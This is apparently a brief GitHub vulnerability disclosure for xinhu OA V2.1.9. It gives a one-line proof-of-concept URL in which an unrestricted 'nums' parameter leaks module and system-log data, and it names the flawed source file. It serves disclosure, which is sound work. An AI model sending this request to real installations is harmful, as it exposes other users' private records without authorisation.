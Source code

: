 # xinhu-oa
xinhu oa Information leakage
xinhu V2.1.9
After the user logged in, open the following  page
poc：
/index.php?a=gettotal&m=index&d=home&atype=&loadci=&optdt=&nums=gong,kqdk,apply,officic,syslog,about&ajaxbool=true

Display the information in the picture
![image] (https://github.com/xuechengen/xinhu-oa/blob/main/%E6%98%BE%E7%A4%BA.JPG)

Check the source code and find that nums is not restricted，/webmain/home/index/indexAction.php
![image] (https://github.com/xuechengen/xinhu-oa/blob/main/2.JPG) 

 Change ajaxbool = false to ajaxbool = true

